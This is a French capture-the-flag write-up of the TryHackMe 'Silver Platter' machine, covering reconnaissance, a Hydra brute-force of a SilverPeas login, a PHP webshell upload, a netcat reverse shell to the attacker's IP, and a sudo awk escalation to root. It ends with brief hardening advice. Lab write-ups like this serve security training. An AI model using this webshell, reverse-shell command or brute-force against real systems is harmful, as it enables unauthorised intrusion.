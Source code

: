 # 🎩 Write Up : Silver Platter - TryHackMe 🍽️

## 📌 Informations

- **🖥️  Machine** : Silver Platter
- **🌍 Plateforme** : TryHackMe
- **⚡ Difficulté** : Facile/Intermédiaire
- **💻 Type** : 🕸️ Web Exploitation & 🏗️ Privilege Escalation

---

## 🏁 Objectifs 🎯

- 🔑 **Accès initial** : Trouver une 🔓 faille web pour obtenir un premier accès.
- 🏆 **Privilèges root** : Exploiter une 🔥 mauvaise configuration pour devenir root.
- 📜 **Récupération des flags** : `user.txt` & `root.txt`.

---

## 🔍 1️⃣ Scan et Reconnaissance

On commence par scanner les 📡 ports ouverts et les services disponibles.

### **📡 Scan Nmap**

```bash
nmap -sC -sV -T4 -p- <IP_de_la_machine>
```

🔎 **Résultat :**

```
PORT     STATE SERVICE  VERSION
22/tcp   open  🛜 ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp   open  🌐 http     nginx 1.14.0 (Ubuntu)
8080/tcp open  🌍 http     Apache httpd 2.4.29 ((Ubuntu))
```

- 🔐**Port 22** : Service SSH (peut être utile plus tard).
- 🕸️ **Port 80** : Site web en ligne.
- 🏗️ **Port 8080** : Serveur web Apache distinct.

---

## 🌐 2️⃣ Analyse des Services Web

### **🌍 Port 80 - Site Web Principal**

On explore le site et on lance `gobuster` pour trouver des 📂 fichiers cachés :

```bash
gobuster dir -u http://10.10.0.51/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt
```

**Résultat :**

```
/images               (Status: 301)
/index.html           (Status: 200)
/assets               (Status: 301)
/README.txt           (Status: 200)
```

On récupère `README.txt` pour voir son contenu 📄 :

```bash
curl http://10.10.0.51/README.txt
```

📜 Rien de sensible mais il mentionne un projet **SilverPeas**.

### **🌍 Port 8080 - Application Web SilverPeas**

On trouve une 🔑 **page de connexion** `http://10.10.0.51:8080/silverpeas`.

En utilisant **📝 cewl**, on génère une wordlist spécifique 📄 :

```bash
cewl http://10.10.0.51 -w passwords.txt
```

Puis, bruteforce du login avec 🦍 **Hydra** :

```bash
hydra -l scr1ptkiddy -P passwords.txt 10.10.0.51 http-post-form "/silverpeas/login:username=^USER^&password=^PASS^:F=Invalid login"
```

✅ **Identifiants trouvés 🎉** : `scr1ptkiddy:adipiscing`

Je vous laisse naviguer sur le site web, il y a beaucoup d'informations qui retiennent notre attention.
Je vais vous montrer une méthode rapide d'injection et d'élévation de privilèges, cependant il y a un moyen bien plus intéressant et un peu plus long, lorsqu'on éxamine le site web et les notifications....
---

## 🔓 3️⃣ Exploitation & Accès Initial

### **📤 Upload de Webshell**

Dans l’application SilverPeas, nous pouvons **📤 téléverser des fichiers**. On tente un **WebShell 🐚 PHP** :

**📄 Contenu de `shell.php`** :

```php
<?php
system($_GET['cmd']);
?>
```

On l’envoie 📤, puis on y accède via :

```bash
http://10.10.0.51:8080/silverpeas/uploaded_files/shell.php?cmd=id
```

✅ **Shell obtenu 🎯** en tant que **`www-data`**

Pour obtenir un shell interactif 🖥️ :

```bash
nc -e /bin/bash <votre_ip> 8080
```

---

## 🔝 4️⃣ Escalade de Privilèges 🚀

### **🔎 Analyse des Permissions Sudo**

On vérifie les permissions sudo 🔍 :

```bash
sudo -l
```

🔎 **Résultat :**

```
User www-data may run the following commands on silverplatter:
    (ALL) NOPASSWD: /usr/bin/awk
```

### **💥 Exploitation via Awk**

On utilise `awk` pour exécuter un **shell root 👑** :

```bash
sudo awk 'BEGIN {system("/bin/bash")}'
```

✅ **Nous sommes root 🎉 !**

---

## 🏆 5️⃣ Récupération des Flags 📜

```bash
cat /home/scr1ptkiddy/user.txt
cat /root/root.txt
```

✅ **Flags obtenus 🎊 !**

---

## 🔐 6️⃣ Protection contre ces Vulnérabilités 🔒

- 🚫 **Désactiver l’upload de fichiers arbitraires**.
- ❌ **Restreindre les permissions sudo inutiles** (`sudo -l`).
- 🔐 **Utiliser des identifiants complexes et limiter les tentatives de connexion**.

---

## 🎯 Conclusion 🏁

Cette machine nous a permis d’explorer plusieurs techniques 🛠️ :

- 🔎 **Reconnaissance et analyse web** via Gobuster et CEWL.
- 🕵️‍♂️ **Exploitation web** via upload de WebShell.
- 🚀 **Escalade de privilèges** en exploitant un mauvais paramétrage sudo.


---

✅ **TryHackMe - Silver Platter complété avec succès 🎉 !** 🚀

